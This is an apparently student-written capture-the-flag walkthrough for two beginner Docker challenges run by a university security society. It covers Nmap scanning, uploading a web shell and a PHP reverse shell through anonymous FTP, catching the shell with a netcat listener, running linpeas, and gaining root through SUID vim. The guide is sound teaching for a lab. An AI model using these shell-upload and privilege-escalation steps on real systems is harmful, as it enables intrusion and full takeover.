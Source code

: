 # ComSec Introduction Writeup


## Nmap 1
Welcome to ComSec's first challenge! This week we will be targeting a docker container, to start it, issue the following two commands:

```sh
$ wget https://cov-comsec.github.io/posts/welcome_nmap/c1/docker-compose.yaml
$ sudo docker-compose up
[sudo] password for kali: 
WARNING: Found orphan containers (kali_evilweb_1) for this project. If you removed or renamed this service in your compose file, you can run this command with the --remove-orphans flag to clean it up.
Recreating kali_ftp_1  ... done
Recreating kali_smtp_1 ... done
Starting kali_ssh_1    ... done
Creating kali_web_1    ... done
Attaching to kali_web_1, kali_ssh_1, kali_smtp_1, kali_ftp_1
ftp_1   | Starting Pure-FTPd:
ftp_1   |   pure-ftpd  -c 30 -C 10 -l puredb:/etc/pure-ftpd/pureftpd.pdb -j -R -P localhost -p 30000:30059  
web_1   | AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 192.168.42.4. Set the 'ServerName' directive globally to suppress this message
web_1   | AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 192.168.42.4. Set the 'ServerName' directive globally to suppress this message
web_1   | [Fri Oct 22 23:08:37.325178 2021] [mpm_prefork:notice] [pid 1] AH00163: Apache/2.4.25 (Debian) PHP/7.3.4 configured -- resuming normal operations
web_1   | [Fri Oct 22 23:08:37.326184 2021] [core:notice] [pid 1] AH00094: Command line: 'apache2 -D FOREGROUND'
```
**NB:** Despite the output, the target machine will be launched at 192.168.42.1!

### Nmap Scan
Now the point of this week is to learn Nmap, so lets start a scan with service detection and scripting turned on:

```sh
$ nmap -sV -sC 192.168.42.1 -T4
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-22 19:14 EDT
Nmap scan report for 192.168.42.1
Host is up (0.00021s latency).
Not shown: 996 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Pure-FTPd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV IP 127.0.0.1 is not the same as 192.168.42.1
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f5:f2:1d:64:04:1b:fd:92:22:7e:6b:71:b7:f4:72:49 (RSA)
|   256 4b:80:f8:74:c0:8d:aa:40:fc:38:02:16:9f:1c:3b:bd (ECDSA)
|_  256 a8:08:e5:35:12:d6:a4:cc:74:8f:4c:9c:02:62:f4:f1 (ED25519)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: 8d1d2dc2ddf0.lan, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| ssl-cert: Subject: commonName=8d1d2dc2ddf0
| Subject Alternative Name: DNS:8d1d2dc2ddf0
| Not valid before: 2020-08-14T10:33:23
|_Not valid after:  2030-08-12T10:33:23
|_ssl-date: TLS randomness does not represent time
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/ftp-uploads
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: Host:  8d1d2dc2ddf0.lan; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.25 seconds
```

It looks like we have 4 ports open. Let's check out the [web server](http://192.168.42.1).

From the scan, we can see that there is a directory named [/ftp-uploads](http://192.168.42.1) and we can see that a flag file has been stored.

![ftpanonymous](imgs/ftp_anonymous.png)

So you have one flag.To be honest this flag works more like a hint to tell you what you should do after this. So if you go back to your nmap scan you will see that you have a line "21/tcp open ftp Pure-ftp" so we have a file transfer protocol it is always good to check as this can sometimes be used for file upload to the machine you are attacking. But what's the mean of ftp-anonymous if you do a fast google search you will find out that when this happens you can have acces to ftp server without having to know the credentials.So lets try to connect to the ftp.

```bash
ftp 192.168.42.1
```
You will be asked to input the Name. You just have to type anonymous to connect.
If you do a "ls" you will be able do see the a file called FTPflag.txt which is the same file you found in the website. You type help you will see as the commands that you can use inside the ftp, we want to upload p0wnyshell so that we can get access to the machine through the browser. For now you just need to know that we are using p0wnyshell as our reverse-shell. So "ctrl+c" to stop the ftp connection clone p0wny shell repository [P0wny-Shell](http://github.com/flozz/p0wny-shell.git).
```bash
cd p0wny-shell
ftp 192.168.42.1
put shell.php
```
The last command is going to upload our shell.
If you go back to your browser and back to "/ftp-uploads/anonymous" you will see the file shell.php in there clicked and you will have p0wny-shell.![p0wny-shell](imgs/pwnyshell.png) So you succefully entered the machine. Let's look for the last flag. A easy way to find files on linux is using the file command.
```bash
find / -name "*.txt" 2>/dev/null
```
![findcommand](imgs/find_command.png)

Congratulations! Lets move to docker2

## Nmap 2

To start this challenge, use:

```sh
wget https://cov-comsec.github.io/posts/welcome_nmap/c2/docker-compose.yaml
docker-compose up
```

So to prove how important is nmap we setup a second nmap challenge but right now we not following the common ports as you can see in here. We mangled the ports from the [StandardPorts](imgs/commonports.pdf)

```bash
sudo nmap -sC -sV 192.168.42.1 -p-
```

![nmap2scan](imgs/nmap_2_scan.png)

In this challenge the ftp part is the same as the first challenge and the first flag is the same, the only difference is that the ports have been changed so if you to "http://192.168.42.1" the website is not going to load you need to instead look for something like this "192.168.42.1:8080".
So lets pass to the second part uploading files to ftp. We have ftp running on port 2121 (2121/tcp ccproxy-ftp) last time you use "ftp $ip" to connect this time that wont work cause you will need to specify the port os instead use something like this "ftp $ip port"
```bash
ftp 192.168.42.1 2121
```
Again use anonymous as login. 
In this challegne we introduced privesc so we will need a scrip to enumerate all te services that are being run on the machine, file permissions, file types, sym links ,etc.
There are 2 that are I know, LinEnum and linpeas. I prefer [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh){target=_blank}, instead of cloning the repository what I did is I open my prefered text editor on my kali box and I just copy/pasted the script. Then I stopped the ftp connection I cd to the directory where I have linpeas, I started the connection again and use the "put linpeas.sh" to copy linpeas to the machine. Besides linpeas we will need a php reverse shell, cause p0wny shell is not going to work in this challenge. Another good resource to put in your bookmarks, [PentestMonkeys](https://github.com/pentestmonkey/php-reverse-shell){target=_blank} I did the same process with both linpeas and the [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php){target=_blank} so open your editor and "ctrl+c / ctrl+v" put hte ip of your kali box in the line where you see "" \\change this" and upload the file to the ftp.
So right now you should see something like this 

![ftpfodler](imgs/uploads2.png)

Which means you ready. Open a terminal and start netcat.
```bash
nc -lvnp 1234
```
Go to "192.168.42.1:8080/ftp-uploads/php-reverse-shell.php" the site should be loading for ever. If you go back to your terminal you should have access to the box.
Tip: everytime I get a reverse shell I try to find out what user I am.
```bash
whoami
```
Lets not forget we are in /var/www , we need to copy our linpeas script to tmp folder.
```bash
cp linpeas.sh /tmp
chmod +x linpeas.sh
./linpeash.sh
```
Take a look at the output and try to find the SUID section. If you don't know SUID is a type of permission that you have on linux that let's the user run the file or binary. 

![linpeas](imgs/linpeas.png)

That last line mentioning vim.basic maybe we can do some research and see how we can exploit it. Fortunately there is a good resource called ["GTFOBINS"](https://gtfobins.github.io/){target=_blank} which is used for looking how we can exploit binaries look for vim and you will see that you can spawn a shell inside vim or using the command. 
```
:!/bin/sh
#or
vim -c ':!/bin/sh'
```
Now you are root!
```bash
cd /root
cat flag.txt
```
Congrats!
Any doubts contact ComSec Committee on discord.
Don't to submit your flags in [CTFD](https://cueh-comsec.ctfd.io/)

